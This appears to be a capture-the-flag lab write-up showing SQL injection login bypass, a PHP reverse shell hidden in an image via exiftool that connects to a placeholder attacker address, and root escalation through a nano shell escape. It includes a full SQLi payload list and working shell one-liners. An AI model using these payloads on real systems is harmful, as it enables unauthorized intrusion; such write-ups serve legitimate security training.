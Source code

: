 ```yaml
---
sticker: emoji//1f6e4-fe0f
---
```

![[Pasted image 20241007144603.png]]
# Enumeration

```ad-info
**OPEN PORTS**:
![[Pasted image 20241007144658.png]]
**FUZZING FOR PORT 80**:
![[Pasted image 20241007150635.png]]

```

The moment I went to `/gallery`, I realized it was a login page, I tried some XSS and when I sent the request, this was the output:

![[Pasted image 20241007150803.png]]
Seems like this login page is vulnerable to [[SQL INJECTION (SQLI)|SQLI]]
So, let's try to exploit it:

For this, I am using burp's intruder with the following payload list:

```ad-summary
'
''
`
``
,
"
""
/
//
\
\\
;
' or "
-- or # 
' OR '1
' OR 1 -- -
" OR "" = "
" OR 1 = 1 -- -
' OR '' = '
'='
'LIKE'
'=0--+
 OR 1=1
' OR 'x'='x
' AND id IS NULL; --
'''''''''''''UNION SELECT '2
%00
/*…*/ 
+		
||		
%		
@variable	
@@variable	
AND 1
AND 0
AND true
AND false
1-false
1-true
1*56
-2
1' ORDER BY 1--+
1' ORDER BY 2--+
1' ORDER BY 3--+
1' ORDER BY 1,2--+
1' ORDER BY 1,2,3--+
1' GROUP BY 1,2,--+
1' GROUP BY 1,2,3--+
' GROUP BY columnnames having 1=1 --
-1' UNION SELECT 1,2,3--+
' UNION SELECT sum(columnname ) from tablename --
-1 UNION SELECT 1 INTO @,@
-1 UNION SELECT 1 INTO @,@,@
1 AND (SELECT * FROM Users) = 1	
' AND MID(VERSION(),1,1) = '5';
' and 1 in (select min(name) from sysobjects where xtype = 'U' and name > '.') --
,(select * from (select(sleep(10)))a)
%2c(select%20*%20from%20(select(sleep(10)))a)
';WAITFOR DELAY '0:0:30'--
```

Also, as seen in the request, it must be URL encoded, so, I also put this in the payload processing:

![[Pasted image 20241007152753.png]]

Let's launch the attack:
![[Pasted image 20241007152809.png]]

![[Pasted image 20241007152818.png]]
Seems like the attack worked for that payload, if we decode it, it is this payload:

`' OR 1 -- -`

And we got in as admin:

![[Pasted image 20241007153027.png]]

If we look around, we find an image upload section:

![[Pasted image 20241007153644.png]]

We can refer to our [[CYBERSECURITY/Bug Bounty/Vulnerabilities/SERVER SIDE VULNERABILITIES/FILE INCLUSION VULNERABILITIES/FILE UPLOAD|FILE UPLOAD]] note, when we try to upload a file, we can only upload images, `.jpg, .png` so, let's use `exiftool` to embed a reverse shell between an image:

```ad-note
```php-template
exiftool -Comment="<?php echo shell_exec('/bin/bash -c \'bash -i >& /dev/tcp/YOUR_IP_ADDRESS/YOUR_PORT 0>&1\''); ?>" cat.jpg -o shell.php
```

As we can see, file is an jpeg now:

![[Pasted image 20241007160746.png]]

Let's try to upload it now:

![[Pasted image 20241007161320.png]]
![[Pasted image 20241007161325.png]]
![[Pasted image 20241007161334.png]]
And we got a shell!

Let's proceed with PRIVILEGE ESCALATION:

First, let's spawn a [[STABLE SHELL|stable shell]], once we've done this, it's time to begin with our privilege escalation:

For the privilege escalation, I used [linpeas](https://github.com/peass-ng/PEASS-ng/tree/master/linPEAS), when I looked at linpeas output, I found this:
![[Pasted image 20241007163005.png]]
seems like the password for user mike, let's su to mike:

![[Pasted image 20241007163600.png]]
Now we are in as mike, let's look at mike's privileges:

![[Pasted image 20241007163724.png]]
We found a rootkit.sh script, let's look at it:

![[Pasted image 20241007163807.png]]
As shown in the read function of the script, it uses nano, if we go to gtfobins, this is shown:
![[Pasted image 20241007164109.png]]

If we execute the script as the root user, this happens:
![[Pasted image 20241007165053.png]]

Let's enter the read option:
![[Pasted image 20241007164217.png]]
Next, enter `ctrl+r` and `ctrl+x`, then the following command:

`reset; sh 1>&0 2>&0`

![[Pasted image 20241007165137.png]]

![[Pasted image 20241007165154.png]]

And just like that, we got root access!

